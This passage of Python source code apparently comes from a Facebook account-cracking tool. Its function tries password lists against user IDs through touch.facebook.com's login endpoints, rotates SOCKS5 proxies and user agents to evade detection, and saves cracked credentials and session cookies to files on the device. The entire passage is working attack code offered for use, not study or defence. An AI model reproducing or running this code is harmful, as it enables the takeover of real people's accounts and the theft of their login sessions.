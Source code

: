			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def cracktouch(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	nip=random.choice(prox)
	proxs= {'http': 'socks5://'+nip}
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	sys.stdout.write(f"\r{x}[{h}+{x}]{k} ╰─>{P}[{b}{loop}{P}/{u}{len(id)}{P}]—{P}[{H}{ok}{P}]—{P}[{k}{cp}{x}]—[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	for pw in pwv:
		try:
			ses.headers.update({'Host': 'touch.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
			p = ses.get('https://touch.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://touch.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'touch.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://touch.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://touch.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'fr_FR,fr;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}
			po = ses.post('https://touch.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				elif 'ya' in princp:
					print('\n')
					statuscp = f'[•] ID       : {idf} [•] PASSWORD : {pw}'
					statuscp1 = nel(statuscp, style='red')
					cetak(nel(statuscp1, title='AOREC-XD CP'))
					open('/sdcard/4MBF-DATA/CP/'+cpc,'a').write(idf+'|'+pw+'\n')
					akun.append(idf+'|'+pw)
					cp+=1
				else:continue
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				headapp={"user-agent":"SupportsFresco=1 Dalvik/2.1.0 (Linux; U; Android 6.0.1; SM-J210F Build/MMB29Q) Source/1 [FBAN/EMA;UNITY_PACKAGE/342;FBBV/107586706;FBAV/172.0.0.8.182;FBDV/SM-J210F;FBLC/id_ID;FBOP/20]"}
				if 'no' in taplikasi:
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/4MBF-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')